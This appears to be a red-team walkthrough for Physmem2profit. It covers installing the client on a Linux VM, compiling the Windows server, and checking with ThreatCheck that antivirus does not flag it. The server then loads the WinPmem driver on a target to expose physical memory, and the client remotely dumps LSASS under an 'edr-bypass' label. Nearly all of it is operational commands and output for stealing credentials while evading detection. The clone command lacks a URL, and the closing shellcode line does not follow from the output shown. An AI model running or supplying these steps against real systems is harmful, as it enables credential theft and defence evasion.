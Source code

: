 Begin by installing the client component on the Linux VM as follows:

```
PS C:\Users\shari> ssh administrator1@testserver6-zdgiahopzwqiy.centralus.cloudapp.azure.com

administrator1@TestServer6:~$ sudo apt-get update -y

administrator1@TestServer6:~$ git clone --recurse-submodules 

administrator1@TestServer6:~$ bash physmem2profit/client/install.sh

administrator1@TestServer6:~/physmem2profit/client$ source .env/bin/activate
```

Next compile the server component on a Windows Machine using Visual Studio and check for detections as follows:

```
PS D:\> .\ThreatCheck.exe -f D:\Tools\Physmem2profit.exe
[+] No threat found!
```

Now transfer the compiled binary to the Windows target and execute it to setup a server loading the Winpmem driver to expose the physical RAM.

```
C:\Tools>.\Physmem2profit.exe --ip 10.1.1.68 --port 80
[*] Registering driver bridges.
[+] Found driver bridge: WinPmem.
[+]    Registered command: Install.
[+]    Registered command: Uninstall.
[+]    Registered command: Map.
[+]    Registered command: Read.
[*] Starting server on 10.1.1.68:80...
[+] Server Started.
[*] Waiting for a connection...
[+] Connected!
[*] Installing service...
[*] Creating service phys2profit...
[+] Service created successfully.
[*] Starting service...
[*] Service is stopped. Trying to start it...
[+] Driver service started.
[+] Successfully installed the WinPMem driver.
[*] Service is running. Trying to stop it...
[+] Successfully unloaded the WinPMem driver.
[*] Exit command received. Terminating.
```

Back in the Linux VM, execute the client component to remotely extract the LSASS minidump from the Physmem2profit server. 

```
(.env) administrator1@TestServer6:~/physmem2profit/client$ python3 physmem2profit/ --mode all --host 10.1.1.68 --port 80
 --driver winpmem --install winpmem_x64.sys --label edr-bypass
/home/administrator1/physmem2profit/client/.env/lib/python3.6/site-packages/rekall/plugins/windows/dumpcerts.py:27: CryptographyDeprecationWarning: Python 3.6 is no longer supported by the Python core team. Therefore, support for it is deprecated in cryptography. The next release of cryptography will remove support for Python 3.6.
  from cryptography import x509
[*] Connecting to 10.1.1.68 on port 80
[*] Connected
[*] Loading config from config.json
[*] Driver installed
[*] Wrote config to config.json
[*] Exposing the physical memory as a file
[*] Analyzing physical memory
```

[+]: Shellcode located at c7160